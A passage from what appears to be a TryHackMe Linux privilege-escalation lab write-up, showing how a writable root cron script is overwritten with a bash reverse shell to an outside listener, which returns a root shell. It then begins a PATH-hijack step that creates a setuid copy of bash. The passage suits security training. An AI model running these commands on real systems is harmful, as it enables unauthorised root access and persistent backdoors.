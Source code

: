 ```
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

```
user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 138.1 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

```
user@debian:~$ nano /usr/local/bin/overwrite.sh
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.106.222/9001 0>&1
```

```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.206.164] 34650
bash: no job control in this shell
root@debian:~# whoami
whoami
root
root@debian:~#
```

1. Read and follow along with the above.

`No answer needed`

## Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:
